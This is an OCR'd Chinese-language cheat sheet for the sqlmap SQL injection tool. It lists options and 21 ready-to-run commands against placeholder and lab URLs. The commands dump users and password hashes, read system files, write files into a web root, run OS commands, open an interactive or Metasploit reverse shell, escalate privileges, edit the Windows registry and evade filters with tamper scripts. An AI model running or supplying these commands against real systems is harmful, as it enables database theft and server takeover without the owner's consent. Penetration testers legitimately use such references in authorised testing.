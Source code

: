 --file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"
